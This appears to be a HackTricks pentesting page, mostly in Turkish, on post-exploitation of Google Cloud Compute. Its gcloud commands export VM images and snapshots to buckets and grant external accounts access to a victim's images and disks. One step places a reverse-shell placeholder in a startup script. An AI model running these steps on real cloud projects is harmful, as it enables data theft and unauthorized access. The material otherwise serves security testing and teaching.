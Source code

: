 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Compute ve VPC (Ağ) hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Görüntüleri Yerel Olarak Dışa Aktarma ve İnceleme

Bu, bir saldırganın **zaten mevcut görüntüler içinde bulunan verilere erişmesine** veya **çalışan VM'lerin yeni görüntülerini oluşturmasına** ve çalışan VM'ye erişim olmadan verilerine ulaşmasına olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından indirmek ve yerel olarak bağlamak mümkündür:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

- oles/compute.storageAdmin
- roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

Doğrudan anlık görüntüleri ve diskleri dışa aktarmak mümkün değildir, ancak **bir anlık görüntüyü bir diske, bir diski bir görüntüye dönüştürmek** ve **önceki bölümdeki** adımları takip ederek o görüntüyü dışa aktarmak mümkündür.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Bir VM Oluşturarak Bir Görüntüyü İnceleme

Bir saldırganın **bir görüntü oluşturduğu** yerden **bir görüntüde depolanan verilere** veya **çalışan bir VM içindeki verilere** erişim sağlama amacıyla, bir dış hesaba görüntüye erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinden erişim veremiyorsanız, kurbanın projesinde o görüntüyü kullanarak bir VM başlatabilir ve **metadata'nın bir ters kabuk çalıştırmasını** sağlamak için parametre ekleyebilirsiniz:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Anlık Görüntüyü/Disk'i Bir VM'ye Bağlayarak İnceleme

**Bir diskte veya anlık görüntüde depolanan verilere erişim sağlama amacıyla, anlık görüntüyü bir diske, diski bir görüntüye dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **bir dış hesaba disk üzerinde erişim verebilirsiniz** (başlangıç noktası bir anlık görüntü ise, anlık görüntüye erişim verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe ekleyin:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içinde bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Diski Tanımlayın**: VM'ye girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` vb. olarak bulabilirsiniz.
3.  **Diski Formatlayın ve Bağlayın** (eğer yeni veya ham bir diskse):

- Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir örnek içinde gerçekleştirmeniz gerekebilir**.

{{#include ../../../banners/hacktricks-training.md}}

